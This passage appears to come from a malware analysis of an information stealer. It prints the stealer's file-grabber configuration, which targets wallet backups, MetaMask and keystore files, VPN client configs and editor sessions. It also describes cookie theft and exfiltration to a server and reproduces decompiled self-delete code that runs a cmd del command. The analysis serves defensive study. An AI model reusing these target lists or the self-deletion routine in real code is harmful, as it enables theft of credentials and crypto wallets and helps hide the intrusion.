 Grabber file settings

```
RECENT|%RECENT%\|*.txt,*.docx,*.xlsx|5|1|1|RECENT|%RECENT%\|*exodus*.png,*exodus*.pdf,*wallet*.png,*wallet*.pdf,*backup*.png,*backup*.pdf,*recover*.png,*recover*.pdf,*metamask*.*,*UTC--*.*|1500|1|1|DESK|%DESKTOP%\|*exodus*.png,*exodus*.pdf,*wallet*.png,*wallet*.pdf,*backup*.png,*backup*.pdf,*recover*.png,*recover*.pdf,*metamask*.*,*UTC--*.*|1500|1|1|DOCS|%DOCUMENTS%\|*exodus*.png,*exodus*.pdf,*wallet*.png,*wallet*.pdf,*backup*.png,*backup*.pdf,*recover*.png,*recover*.pdf,*metamask*.*,*UTC--*.*|1500|1|1|DOCS|%DOCUMENTS%\|*.txt,*.docx,*.xlsx|8|1|1|DESK|%DESKTOP%\|*.txt,*.docx,*.xlsx|8|1|1|NOTEPAD|%APPDATA%\Notepad++|*.xml|10|1|1|NOTEPAD|%APPDATA%\Notepad++\backup\|*.*|10|1|1|SUBLIME|%APPDATA%\Sublime Text 3\Local\Session.sublime_session\|*.sublime_*|10|1|1|VPN_CiscoVPN|%PROGRAMFILES%\\..\\ProgramData\\Cisco\Cisco AnyConnect Secure Mobility Client\Profile\|*.xml|999|1|0|VPN_Fortinet|%PROGRAMFILES%\Fortinet\FortiClient\|*.conf,*.xml|999|1|0|VPN_SonicWall|%APPDATA%\SonicWall\Global VPN Client\|*.rcf|999|1|0|VPN_F5|%PROGRAMFILES%\F5 VPN\|*.xml,*.ini|999|1|0|VPN_F5|%PROGRAMFILES_86%\F5 VPN\|*.xml,*.ini|999|1|0|VPN_Pulse|%PROGRAMFILES%\\..\\ProgramData\\Pulse Secure\VPN Client\config\|*.xml,*.conf|999|1|0|VPN_CheckPoint|%PROGRAMFILES_86%\CheckPoint\Endpoint Connect\|trac.config|999|1|0|VPN_CheckPoint|%APPDATA%\CheckPoint\Endpoint Security VPN\|*.xml,*.ini|999|1|0|VPN_OpenVPN|%PROGRAMFILES%\OpenVPN\config\|*.ovpn, *.conf|999|1|0|VPN_OpenVPN|%PROGRAMFILES_86%\OpenVPN\config\|*.ovpn, *.conf|999|1|0|VPN_OpenVPN|%USERPROFILE%\OpenVPN\config\|*.ovpn, *.conf|999|1|0|RemoteNG|%APPDATA%\mRemoteNG\|*.xml|999|1|0|
```

It also downloads the sqlite3 library from the server to collect browser cookies. Each file is sent to the server in a separate package. Config view is similar to Vidar, getting the list of browsers, crypto wallets, file grabber settings is similar to Raccon2.

# Self delete

Deletes itself after working through cmd and a simple command with delay, function taken from Vidar stealer

```cpp
void __noreturn mlw_self_delete()
{
  LPCSTR *v0; // eax
  LPCSTR *v1; // eax
  int v2[3]; // [esp+0h] [ebp-44Ch] BYREF
  int v3[3]; // [esp+Ch] [ebp-440h] BYREF
  void *v4[3]; // [esp+18h] [ebp-434h] BYREF
  CHAR Filename[1004]; // [esp+24h] [ebp-428h] BYREF
  SHELLEXECUTEINFOA pExecInfo; // [esp+410h] [ebp-3Ch] BYREF

  sub_4113E0(Filename, 0x3E8u);
  sub_4113E0(&pExecInfo, 0x3Cu);
  GetModuleFileNameA(0, Filename, 0x104u);
  lstcpy((LPSTR *)v4, (CHAR *)sSelfDelete);
  v0 = (LPCSTR *)lstrcat((int)v4, (int)v3, Filename);
  lstrcpy((int *)v4, v0);
  get_str_from_this(v3);
  v1 = (LPCSTR *)lstrcat((int)v4, (int)v2, sSelfDelete_0);// /c timeout /t 5 & del /f /q "
                                                // " & del "C:\ProgramData\*.dll"" & exit
  lstrcpy((int *)v4, v1);
  get_str_from_this(v2);
  pExecInfo.cbSize = 60;
  pExecInfo.fMask = 0;
  pExecInfo.hwnd = 0;
  pExecInfo.lpVerb = (LPCSTR)sOpen;
  pExecInfo.lpFile = (LPCSTR)sCmdExe;
  pExecInfo.lpParameters = (LPCSTR)get_str_from_this_0(v4);
  memset(&pExecInfo.lpDirectory, 0, 12);
  ShellExecuteExA(&pExecInfo);
  sub_4113E0(&pExecInfo, 0x3Cu);
  sub_4113E0(Filename, 0x3E8u);
  sub_4132F0((int *)v4);
  ExitProcess(0);
```